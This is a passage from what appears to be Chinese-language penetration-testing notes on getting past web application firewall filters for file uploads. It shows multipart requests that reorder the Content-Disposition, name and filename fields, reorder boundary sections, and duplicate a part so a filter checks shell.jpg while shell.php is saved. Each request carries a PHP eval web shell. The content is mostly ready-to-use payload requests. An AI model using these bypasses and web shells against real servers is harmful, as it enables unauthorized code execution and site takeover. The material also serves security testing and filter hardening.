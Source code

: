 ###### 顺序颠倒

交换name和filename的顺序

因为规定了Content-Disposition必须在最前面,所以只能交换name和filename的顺序.有的waf可能会匹配name在前面,filename在后面,可以导致绕过

```
Content-Disposition: form-data; filename="xx.php"; name="file_x"
```

交换Content-Disposition和Content-Type的顺序

Content-Disposition和Content-Type也是能够交换顺序的

```
Content-Type: image/png
Content-Disposition: form-data; name="upload_file"; filename="shell.php"
```

交换不同boundary内容的顺序

不同boundary内容也能够交换,且不影响文件上传

```
------WebKitFormBoundaryzEHC1GyG8wYOH1rf
Content-Disposition: form-data; name="submit"

上传
------WebKitFormBoundaryzEHC1GyG8wYOH1rf
Content-Disposition: form-data; name="upload_file"; filename="shell.php"
Content-Type: image/png

<?php @eval($_POST['x']);?>

------WebKitFormBoundaryzEHC1GyG8wYOH1rf--
```

###### 内容重复

**boundary内容重复**

最后上传的文件是shell.php而非shell.jpg,但是如果取的文件名时只取了第一个就会被Bypass

```
------WebKitFormBoundarymeEzpUTMsmOfjwAA
Content-Disposition: form-data; name="upload_file"; filename="shell.jpg"
Content-Type: image/png

<?php @eval($_POST['hack']); ?>
------WebKitFormBoundarymeEzpUTMsmOfjwAA
Content-Disposition: form-data; name="upload_file"; filename="shell.php"
Content-Type: image/png

<?php @eval($_POST['hack']); ?>
------WebKitFormBoundarymeEzpUTMsmOfjwAA
Content-Disposition: form-data; name="submit"

上传
------WebKitFormBoundarymeEzpUTMsmOfjwAA--
```
